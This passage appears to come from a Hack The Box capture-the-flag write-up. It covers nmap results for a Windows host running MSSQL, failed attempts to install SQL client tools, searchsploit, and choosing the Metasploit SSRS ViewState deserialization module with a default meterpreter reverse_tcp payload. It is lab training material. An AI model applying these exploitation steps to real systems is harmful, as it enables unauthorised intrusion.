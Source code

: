 ```
|_  start_date: N/A

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 45.36 seconds
```

This is a good start.  As usual, we look for a web domain to gain a foothold.  There is a lot of information here, but we see an RPC server on port `135`, a `netbios-ssn` on port `139`, a `microsoft-ds` on port `445`, and an SQL server on port `1433`.  However, seeing that there is an SQL server, let's try to get some SQL tools ready.  I see we can install them [via these instructions](https://docs.microsoft.com/en-us/sql/linux/sql-server-linux-setup-tools?view=sql-server-ver15#ubuntu).  However, this installation is specifically for Ubuntu so it failed.

However, I did find [this](https://resources.infosecinstitute.com/topic/attacking-ms-sql-server-gain-system-access/) on the web, and keeping in mind my initial thoughts on HTB, this looks very convenient!

From the link, we see that ExploitDB has some things.  So, there are a lot of exploits, it seems.  We need to choose one...  We know that the `mssql` server version this machine is using is from 2017.

Let's quickly have a look at the [CLI for `mssql`](https://opensource.com/article/18/1/ms-sql-command-line-client) before we have a go at the metasploit results.  We need to first run:
```bash
$ pip install mssql-cli
$ echo 'PATH=$PATH:$HOME/.local/bin/' >> ~/.zshrc
$ source ~/.zshrc
```

However, this CLI keeps erroring regarding dependencies, so no good.  Let's have another look at those metasploit results.

I run
```
searchsploit -m 23649
```

At this point, I realise I have very little knowledge of how to use metasploit, so I found [this video](https://www.youtube.com/watch?v=8lR27r8Y_ik) which helped me understand.  So entering the `msfconsole` and we search for exploits:
```
msf6 > search type:exploit platform:windows microsoft sql
```

Recall that we are dealing with Microsoft SQL Server 2017, and only one of these has an Disclosure Date of later than that, so we choose that one:
```
msf6 > use exploit/windows/http/ssrs_navcorrector_viewstate
[*] No payload configured, defaulting to windows/x64/meterpreter/reverse_tcp
msf6 exploit(windows/http/ssrs_navcorrector_viewstate) > show targets

Exploit targets:

   Id  Name
   --  ----
   0   Windows (x86)
   1   Windows (x64)
   2   Windows (cmd)


msf6 exploit(windows/http/ssrs_navcorrector_viewstate) > show info

       Name: SQL Server Reporting Services (SSRS) ViewState Deserialization
     Module: exploit/windows/http/ssrs_navcorrector_viewstate
   Platform: Windows
       Arch:
 Privileged: Yes
    License: Metasploit Framework License (BSD)
```